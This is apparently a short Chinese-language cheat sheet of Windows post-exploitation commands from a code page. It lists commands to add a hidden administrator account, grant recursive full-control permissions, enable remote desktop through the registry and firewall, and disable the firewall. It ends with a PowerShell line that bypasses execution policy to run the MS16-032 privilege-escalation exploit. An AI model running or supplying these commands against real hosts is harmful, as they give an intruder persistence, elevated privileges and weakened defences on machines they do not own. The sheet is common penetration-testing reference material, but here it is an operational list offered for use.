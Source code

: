 # Windows 后渗透常用命令

- 添加一个新用户：
```
$ net user test 1234 /add
$ net localgroup administrators test /add
```
- CMD中输出文件内容：
```
$ type file
```
- 删除文件：
```
$ del /f file
```
- 修改用户密码：
```
$ net user <user> <password>
```
- 列出所有用户：
```
$ net user
```

-查看某用户详细信息:
```
$ net user <username>
```
- 文件夹递归权限:
```
$ cacls *.* /t /e /g domainname\administrator:f
```

- 开启RDP访问权限：
```
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```
- 关闭防火墙：
```
$ netsh firewall set opmode disable
```
- 运行 exploit：
```
C:\tmp>powershell -ExecutionPolicy ByPass -command "& { . C:\tmp\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```
